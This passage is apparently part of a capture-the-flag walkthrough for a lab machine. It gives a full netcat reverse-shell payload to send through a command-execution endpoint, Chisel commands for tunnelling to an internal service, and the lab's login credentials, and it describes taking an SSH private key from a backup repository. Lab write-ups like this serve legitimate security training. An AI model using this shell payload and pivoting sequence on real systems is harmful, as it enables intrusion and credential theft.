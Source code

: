This lets us create the `/exec` endpoint that we can use to execute code on the target machine. Run `nc -lvnp` on your Attacking machine.

We will use the `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> <PORT> >/tmp/f` reverse shell payload like this:

![Image](images/4.png)

Tip: Make sure to URL encode the payload and then add it after `?cmd=`.

Now that we have a shell to the target machine, we can see that it is actually a docker container. Here, the port 3000 that we saw earlier can come in handy.

If you run `wget http://10.10.11.164:3000` on the target machine, you see that we are able to download a web page but we are not able to access it via our attacking machine.

Run `ifconfig` on the machine to find out what ip range it is running on, this will help with finding what IP the port 3000 service is running.

For this, we have to use a tool called Chisel(https://github.com/jpillora/chisel) in order to relay traffic to us. After transferring the chisel binary onto the target machine and then execute the following:

```vim
Attacking Machine: sudo chisel server --port 3000 -v --reverse --socks5

Client Machine: ./chisel client <IP>:3000 R:5000:socks
```
Add Chisel to your FoxyProxy like this:

![Image](images/5.png)

Now you can change proxies and view the hidden service at `http://172.17.0.1:3000/`. Log in with the credentials `dev01:Soulless_Developer#2022` and We will be able to see a `home-backup` repository with `.ssh` folder which contains the id_rsa. We can use this to log into the target machine as the dev01 user.
